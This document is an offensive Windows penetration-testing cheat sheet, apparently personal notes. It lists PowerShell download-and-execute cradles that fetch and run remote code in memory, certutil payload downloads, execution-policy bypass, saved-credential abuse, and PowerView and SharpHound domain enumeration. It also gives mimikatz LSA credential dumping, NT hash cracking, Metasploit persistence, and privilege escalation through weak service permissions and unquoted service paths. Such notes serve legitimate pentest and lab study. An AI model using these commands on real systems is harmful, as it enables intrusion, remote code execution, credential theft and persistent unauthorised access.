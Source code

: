 https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html

# PowerShell Open Port Discovery
```powershell
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect("IP",$_)) "Port $_ is open!"} 2>$null}
```

# PowerShell in-memory Download and Execute cradle
```powershell
iex (iwr 'URL')

iex (New-Object Net.WebClient).DownloadString('URL')

$down = [System.NET.WebRequest]::Create("URL")  
$read = $down.GetResponse()  
IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()

$file=New-Object -ComObject Msxml2.XMLHTTP;$file.open('GET','URL',$false);
$file.send();
iex $file.responseText

$ie=New-Object -ComObject InternetExplorer.Application;
$ie.visible=$False;
$ie.navigate('URL');
sleep 4;
$response=$ie.Document.body.innerHTML;
$ie.quit();
iex $response
```

certutil.exe -urlcache -f URL OUTFILE
certutil.exe -urlcache -split -f URL OUTFILE
certutil.exe -decode IN.TXT OUT.exe

xfreerdp /u:USER /p:PASS /cert:ignore /v:RHOST

cmdkey /list
vaultcmd /list
vaultcmd /listcreds:"VAULT"
runas /user:USER /savecred EXECUTABLE

powershell -ep bypass

. .\\PowerView.ps1
Get-NetUser | select cn
Get-NetGroup -GroupName *admin*
Get-NetShare
Invoke-ShareFinder
Get-NetComputers
Get-NetComputer -fulldata | select operatingsystem
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain DOMAIN -ZipFileName loot.zip

mimikatz.exe
> privilege::debug
> lsadump::lsa /patch
john crack.me --wordlist=~/wordlists/rockyou.txt --format=NT

use exploit/windows/local/persistence
set session 1

# INSECURE SERVICE PERMISSIONS
C:\PrivEsc\accesschk.exe /accepteula -uwcqv USER SERVICE
sc qc SERVICE
sc config SERVICE binpath="PATH"
net start daclsvc

# UNQUOTED SERVICE PATH
sc qc SERVICE
accesschk.exe /accepteula -uwdq "PATH" 
copy SHELL "PATH"
net start SERVICE